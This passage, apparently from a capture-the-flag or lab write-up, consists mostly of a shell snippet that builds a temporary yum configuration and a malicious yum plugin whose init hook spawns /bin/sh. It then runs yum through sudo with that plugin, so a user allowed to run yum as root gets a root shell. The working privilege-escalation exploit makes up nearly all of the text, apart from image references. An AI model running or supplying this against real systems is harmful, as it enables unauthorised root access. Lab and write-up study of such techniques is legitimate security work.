 	# Paste entire thing
	TF=$(mktemp -d)
	cat >$TF/x<<EOF
	[main]
	plugins=1
	pluginpath=$TF
	pluginconfpath=$TF
	EOF
	
	cat >$TF/y.conf<<EOF
	[main]
	enabled=1
	EOF
	
	cat >$TF/y.py<<EOF
	import os
	import yum
	from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
	requires_api_version='2.1'
	def init_hook(conduit):
	  os.execl('/bin/sh','/bin/sh')
	EOF
	
	sudo yum -c $TF/x --enableplugin=y
	```
	![]({{ page.img_path }}Pasted%20image%2020220823044854.png)

